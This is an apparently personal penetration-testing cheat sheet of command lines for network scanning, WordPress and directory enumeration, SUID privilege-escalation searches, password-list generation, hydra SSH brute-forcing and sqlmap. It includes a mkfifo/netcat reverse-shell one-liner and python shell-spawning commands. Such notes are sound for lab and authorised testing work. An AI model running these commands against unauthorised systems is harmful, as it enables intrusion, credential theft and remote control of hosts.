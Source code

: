 # Cheat Sheet

## TEST-EDIT

## arp-scan
```
sudo arp-scan --interface=ens33 --localnet
```

## wpscan
```
wpscan --api-token ####### --url http://website.com/directory -e --plugins-detection aggressive --ignore-main-redirect --force
```

## nmap
```
nmap -p- x.x.x.x --open
nmap -p21,80,443 x.x.x.x
nmap (-sV / -A) -p21,80,443 x.x.x.x
```

##  gobuster
```
gobuster dir --url http://whatever.com --wordlist /usr/share/wordlists/dirb/common.txt

gobuster dir --url http://whatever.com -x php,html,txt --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o dir.log
```

## netcat
```
nc -nlvp 8888 (host listener)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc (host port) >/tmp/f
```

## python
```
python -m http.server (setup a local webserver)
python -c 'import pty;pty.spawn("/bin/bash")' (spawn shell)
python -c 'import os; os.execl("/bin/sh", "sh", "-p")' (spawn shell)
```

## privesc
```
sudo -l
find / -type f -user root -perm -4000 2>/dev/null (find suid files)
```

## crunch
```
# example:
# “bev" + “1 upper char” + “2 num" + “2 lower char” + “1 symbol” + “1995”

# crunch pattern (-t) flags
• , = upper char
• % = number
• @ = lower char
• ^ = symbol

crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
```

## hydra
```
hydra ssh://<ip>:<port> -l username -P /opt/rockyou.txt
```

## sqlmap
```
sqlmap -u http://website:port/directory --answers="follow=Y" --batch
```

